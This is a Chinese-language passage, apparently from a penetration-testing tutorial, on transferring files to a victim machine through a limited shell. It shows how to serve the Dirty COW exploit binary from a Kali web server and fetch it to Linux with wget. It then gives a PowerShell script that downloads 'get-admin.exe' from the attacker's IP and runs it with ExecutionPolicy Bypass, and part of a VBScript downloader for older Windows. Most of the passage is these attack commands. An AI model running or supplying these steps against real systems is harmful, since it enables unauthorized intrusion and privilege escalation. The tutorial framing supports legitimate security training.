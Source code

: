 让我们来看一个实际场景。假设你刚刚获得了受害者机器的有限 Shell，你知道操作系统是 Linux，并且想要将`Dirty COW`上传到远程服务器并执行。以下是这种方法的步骤：

1.  将`Dirty COW`二进制文件复制到目标 HTTP 目录，路径为`/var/www/html`。

1.  使用`$service apache2 start`启动 Web 服务器。

1.  通过受限 shell 使用以下命令将文件下载到受害者的机器上（我将文件下载到`/tmp`目录）：

    +   `cd /tmp`

    +   `$wget [http://Kali IP 地址/文件名]`

那么如果我想将文件传输到 Windows 机器呢？为此，我需要使用 PowerShell，如以下部分所示。

# 使用 PowerShell

在你的受限 shell 中执行以下命令来创建脚本：

```
echo $storageDir = $pwd > wget_win.ps1
echo $webclient = New-Object System.Net.WebClient >>wget_win.ps1
echo $url = "http://[kali IP]/file name" >>wget_win.ps1
echo $file = "get-admin.exe" >>wget_win.ps1
echo $webclient.DownloadFile($url,$file) >>wget_win.ps1
```

我选择了文件名`get-admin.exe`。你不必使用相同的名字；你可以使用任何你喜欢的名字。

接下来，使用`powershell.exe`执行脚本：

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget_win.ps1
```

# 使用 VBScript

对于没有 PowerShell 的旧版 Windows，我们将使用 VBScript。第一步是创建脚本。然后，我们可以使用`cscript`命令执行它：

```
echo strUrl = WScript.Arguments.Item(0) > wget_win.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget_win.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget_win.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget_win.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget_win.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget_win.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget_win.vbs
echo Err.Clear >> wget_win.vbs
echo Set http = Nothing >> wget_win.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget_win.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget_win.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget_win.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget_win.vbs
echo http.Open "GET", strURL, False >> wget_win.vbs
echo http.Send >> wget_win.vbs
echo varByteArray = http.ResponseBody >> wget_win.vbs
echo Set http = Nothing >> wget_win.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget_win.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget_win.vbs
echo strData = "" >> wget_win.vbs
echo strBuffer = "" >> wget_win.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget_win.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget_win.vbs
echo Next >> wget_win.vbs
echo ts.Close >> wget_win.vbs
```
